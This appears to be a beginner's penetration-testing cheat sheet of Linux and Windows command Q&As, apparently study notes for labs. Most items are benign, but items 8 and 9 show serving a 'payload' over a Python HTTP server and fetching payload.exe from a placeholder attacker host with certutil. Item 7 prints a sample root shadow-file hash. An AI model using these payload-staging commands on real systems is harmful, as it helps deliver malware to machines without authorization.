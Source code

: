 1) What is that command ? 
- use ``whatis`` command to find out - ``whatis nslookup``

2) How to open host file in Linux ?
```
sudo nano /etc/hosts
```

3) What is a host file tho ?
- It contains the list of hostnames and Domain names and their corresponding IP addresses. 
- U can make changes in the host file to map an IP address to a local domain. (Cannot be accessed by the internet). 
```
192.168.0.1 router.admin
```

4) Extract files using `gzip` and `tar`
```
gzip -d file.gz
```

```
tar -xf file.tar.gz
```

5) What's `curl` ?
`curl`: This is a command-line tool used to transfer data to or from a server using various network protocols, such as HTTP, HTTPS, FTP, etc.

6) What's `more` ?
`more` prints one page at a time in the terminal if the output text is too long. For example, we can pipe the curl command through `more` to show the result in a more concise manner. 

```
curl <ip> | more
```

7) Explain salted password hashing
A "salt" in the context of password hashing is a random value that is generated and combined with a user's password before hashing it. The primary purpose of a salt is to add uniqueness and complexity to the password hashing process.

```
root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
```

- In this example, `eo0I5IAu` is the unique salt.
- `$6$` prefix indicates the hashing algorithm, in this case SHA-512.

8) How to host a Python `http` server to host a payload ?

```
python -m SimpleHTTPServer 80
```

9) How to download a file from a remote server using CMD on Windows ?

```
certutil -urlcache -f http://<lhost>/payload.exe payload.exe
```

10) How to count the number of lines in the output of a command ?
```
<command-of-a-tool> | wc -l
```

11) How to copy a file from a different location to the current working directory ?
```
cp /path/to/file . 
```

12) How to access multiple terminals in CLI interface ?
	- We can access multiple terminals if we are only provided with a single terminal using `tmux` utility. 
	- We can open new terminals using `ctrl+b+c`.  
	- We can switch back to the previous terminal using `ctrl+b+0`. 
	- We can type `exit` to exit out of a terminal. 
	- To scroll up and down in a `tmux` terminal, we need to use `ctrl+b` with the page up and down keys in our keyboard. Once done scrolling, press `q` key to exit out of scrolling mode. 